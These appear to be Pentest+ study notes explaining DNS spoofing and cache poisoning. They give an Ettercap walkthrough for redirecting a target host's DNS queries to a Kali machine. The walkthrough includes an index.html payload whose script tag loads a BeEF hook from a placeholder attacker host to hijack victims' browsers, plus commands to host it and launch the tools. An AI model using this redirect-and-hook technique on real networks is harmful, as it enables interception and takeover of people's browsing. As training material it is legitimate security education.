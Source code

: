 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

### 1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

### 2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

### 3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

### 4) Launch BeEf
````
beef-xss
````

### 5) Launch Ettercap
````
ettercap -G
````
* "Sniffing at startup" should be selected automatically.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/5_ettercap.png)

### 6) Select the checkmark in the upper right corner to start sniffing

### 7) List the hosts Ettercap has discovered
* Select the vertical elipses in the upper right hand corner.
* Select Hosts > Hosts list
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/7_list_hosts.png)

### 8) Select hosts
* Identify and select Target 1 as the target host to redirect.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/8_target1_host.png)

* Select Target 2 as the gateway/DNS server to impersonate. 
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/8_target2_host.png)
